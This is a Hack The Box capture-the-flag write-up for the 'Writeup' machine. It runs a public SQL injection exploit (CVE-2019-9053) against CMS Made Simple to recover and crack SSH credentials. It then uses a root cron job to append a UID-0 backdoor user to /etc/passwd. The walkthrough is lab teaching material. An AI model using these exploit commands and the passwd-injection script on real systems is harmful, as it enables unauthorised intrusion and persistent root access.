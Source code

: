 ```yaml
---
clayout: ctf
title: Writeup
date: 2025-03-27
image: /ctf/hack-the-box/machines/writeup/info-card.png
type: Hack The Box

ctf:
    - name: Writeup
      link: https://app.hackthebox.com/machines/192
      thumbnail: /ctf/hack-the-box/machines/writeup/info-card.png
      pwned:
        - link: https://labs.hackthebox.com/achievement/machine/585215/192
          thumbnail: /ctf/hack-the-box/machines/writeup/pwned.png
---
```


## Enumeration

### Nmap Scan

We begin by running a comprehensive Nmap scan to enumerate open ports and detect running services:

```bash
nmap -sC -sV -v -p- -oN writeup.nmap 10.10.10.138
```

**Scan Results:**

```bash
PORT   STATE SERVICE    VERSION
22/tcp open  tcpwrapped
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  tcpwrapped
```

Port 22 and 80 are open but both return `tcpwrapped`, indicating access control mechanisms or limitations on banner grabbing.

### Web Enumeration

Navigating to `http://10.10.10.138/`, we are presented with a basic webpage:

![Homepage](/ctf/hack-the-box/machines/writeup/home.png)

Checking `robots.txt`, we discover a disallowed path:

![robots.txt](/ctf/hack-the-box/machines/writeup/robots.png)

The file discloses the `/writeup` directory, which appears to host a web application:

![Writeup Page](/ctf/hack-the-box/machines/writeup/writeup.png)

We use `whatweb` to fingerprint the application:

```bash
whatweb http://10.10.10.138/writeup/
```

![WhatWeb Output](/ctf/hack-the-box/machines/writeup/whatweb.png)

The application is identified as **CMS Made Simple**—an open-source PHP CMS. The footer indicates the version may date back to 2019.

Based on this, we research known vulnerabilities and discover [CVE-2019-9053](https://nvd.nist.gov/vuln/detail/CVE-2019-9053), which is an unauthenticated SQL injection vulnerability affecting CMS Made Simple version 2.2.9.

### Exploitation

We exploit the SQL injection using the publicly available script [Exploit-DB 46635](https://www.exploit-db.com/exploits/46635):

```bash
python3 46635.py -u "http://10.10.10.138/writeup/" -w /usr/share/wordlists/rockyou.txt -c
```

**Script Output:**

```
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password hash found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
```

With the credentials `jkr : raykayjay9`, we are able to access the machine via SSH:

```bash
ssh jkr@10.10.10.138
```

After logging in, we retrieve the user flag:

```bash
jkr@writeup:~$ cat user.txt
[USER_FLAG]
```

## Privilege Escalation

We check the group memberships for the `jkr` user:

![User Groups](/ctf/hack-the-box/machines/writeup/groups.png)

The user is part of the `staff` group, which may have access to sensitive directories or cron-related scripts. We refer to [this blog post](https://binaryregion.wordpress.com/2021/09/22/privilege-escalation-linux-staff-group/) explaining how this group can be leveraged for privilege escalation.

To monitor background activity, we run `pspy32`, a tool for process discovery:

![pspy Output](/ctf/hack-the-box/machines/writeup/pspy32.png)

We observe that a `run-parts` script is executed as **root** on a recurring schedule. This script executes all scripts in a given directory—offering an opportunity to inject malicious code.

### Crafting the Exploit

We replace or add a script in the expected `run-parts` path, such as `/usr/local/bin/run-parts`, to append a new root user into `/etc/passwd`:

```bash
#!/bin/bash
echo 'deejay:$1$deejay$4bbVUrgoKNqATEsKbF2d.0:0:0:root:/root:/bin/bash' >> /etc/passwd
```

Once triggered, the new user `deejay` with UID 0 is added.

We confirm the injection:

![Modified /etc/passwd](/ctf/hack-the-box/machines/writeup/passwd.png)

Now, we switch to the new root user:

```bash
su deejay
```

Access is granted, and we retrieve the root flag:

```bash
cat /root/root.txt
```

![Root Access](/ctf/hack-the-box/machines/writeup/root.png)
